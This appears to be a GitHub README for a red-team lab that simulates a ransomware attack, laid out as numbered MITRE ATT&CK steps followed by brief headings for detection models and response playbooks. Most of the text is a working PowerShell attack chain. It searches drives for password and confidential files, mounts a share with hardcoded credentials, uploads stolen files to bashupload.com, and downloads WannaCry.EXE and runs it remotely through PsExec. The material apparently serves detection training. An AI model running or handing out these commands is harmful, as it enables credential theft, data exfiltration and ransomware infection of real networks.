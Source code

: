 # Tools-Red-Team
Herramientas para evaluar un posible ataque Ransomware


4.1. Current User (T1033)	whoami

4.2. Find System Network Connections (T1049)	netstat -anto; Get-NetTCPConnection

4.3. Network Service Scanning (T1046)	Multiple computers within the network have exposed services on

4.4. View remote shares (T1135)	net view \\10.0.10.12 /all

4.5. Find files (T1005)	Get-ChildItem C:\ -Recurse -Include confidential.* -ErrorAction 'SilentlyContinue' | foreach {$_.FullName} | Select-Object -first 5
	Get-ChildItem C:\ -Recurse -Include password.* -ErrorAction 'SilentlyContinue' | foreach {$_.FullName} | Select-Object -first 5
 
4.6. Manual Command - (T1059)	Get-Content -Path  c:\confidential\confidential.txt

4.7. Net use (T1021.002)	net use \\10.0.10.12\confidential /user:trendmicro trendmicro;

4.8. Manual Command (T1083)	Get-ChildItem -Path \\10.0.10.12\confidential

4.9. Manual Command "Data Exfiltration" (T1041, T1055, T1572)	Invoke-WebRequest -Uri https://bashupload.com -Method Post -ContentType multipart/form-data -Body \\10.0.10.12\confidential\confidential.txt
	Invoke-WebRequest -Uri https://bashupload.com -Method Post -ContentType multipart/form-data -Body \\10.0.10.12\confidential\Passwords.txt

4.10. Manual Command Dropping a 0-day Ransomware! (T1486)	Invoke-WebRequest -Uri "https://download.sysinternals.com/files/PSTools.zip" -OutFile "C:\Users\Public\PSTools.zip"; Expand-Archive -Path "C:\Users\Public\PSTools.zip" -DestinationPath "C:\Users\Public\";
	Invoke-WebRequest -Uri https://github.com/limiteci/WannaCry/raw/main/WannaCry.EXE -OutFile \\10.0.10.12\confidential\wcry.exe;
	CMD: C:\Users\Public\PsExec.exe -s -accepteula \\10.0.10.12 -u trendmicro -p trendmicro C:\confidential\wcry.exe
 
5.1. Custom Detection Model - Network and using PowerShell	Create Custom Detection Model: Network and using PowerShell

5.2. Custom Detection Model -  Sensitive data using PowerShell	Detecting an individual trying to upload: Sensitive data using PowerShell

5.3. Custom Detection Model - Ransomware Activity	Detecting Ransomware Activity (Compromised computer)

6.1. Security Playbook - Network Scan using Powershell	Detecting AND STOPPING an individual trying to scan for active computers on a network and using PowerShell scripts - Related to Lab 4.3

6.2. Security Playbooks - Sensitive Data Exfiltration	Detecting AND STOPPING an individual trying to upload sensitive data using PowerShell or other scripts - Related to Lab 4.9.

6.3. Security Playbooks - Ransomware Activity	Detecting and ISOLATING a compromised computer that was the victim of a Ransomware attack - Related to Lab 4.10

6.4 Automated Response - Security Playbook - Sensitive Data Exfiltration	"Run the following command using Caldera / Manual Command:

Invoke-WebRequest -Uri https://bashupload.com -Method Post -ContentType multipart/form-data -Body \\10.0.10.12\confidential\confidential.txt"
	Invoke-WebRequest -Uri "https://download.sysinternals.com/files/PSTools.zip" -OutFile "C:\Users\Public\PSTools.zip"; Expand-Archive -Path "C:\Users\Public\PSTools.zip" -DestinationPath "C:\Users\Public\";
	Invoke-WebRequest -Uri https://github.com/limiteci/WannaCry/raw/main/WannaCry.EXE -OutFile \\10.0.10.12\confidential\wcry.exe;
	CMD: C:\Users\Public\PsExec.exe -s -accepteula \\10.0.10.12 -u trendmicro -p trendmicro C:\confidential\wcry.exe
![imagen](https://github.com/jmorales79/Tools-Red-Team/assets/149610204/639fe2cc-4b70-4afa-bdf8-94564c7fe648)

